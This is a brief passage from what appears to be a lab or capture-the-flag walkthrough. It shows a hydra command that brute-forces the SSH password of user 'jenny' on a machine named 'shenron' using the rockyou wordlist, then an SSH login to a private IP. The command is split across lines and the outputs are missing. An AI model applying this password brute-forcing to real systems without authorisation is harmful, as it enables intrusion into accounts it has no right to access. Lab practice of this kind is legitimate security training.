


4.2 Find SSH password with hydra
1. Use "hydra: as follows on your Kali Machine.
$hydra
-l jenny -P
/
usr
/
share
/
wordlists
/
rockyou.txt shenron
ssh
Output:

You have jenny's password.
2. Connect via SSH.
$ssh
jenny@192.168.12.39
Output:

Index